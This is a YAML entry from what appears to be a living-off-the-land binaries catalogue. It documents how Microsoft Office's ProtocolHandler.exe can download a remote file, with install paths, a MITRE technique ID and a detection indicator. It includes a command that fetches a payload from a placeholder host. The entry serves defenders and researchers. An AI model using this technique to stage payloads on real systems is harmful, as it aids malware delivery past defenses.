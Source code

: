 ```yaml
---
Name: ProtocolHandler.exe
Description: Microsoft Office binary
Author: Nir Chako
Created: 2022-07-24
Commands:
  - Command: ProtocolHandler.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office\Office16\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office\Office15\ProtocolHandler.exe
Detection:
  - IOC: Suspicious Office application Internet/network traffic
Acknowledgement:
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

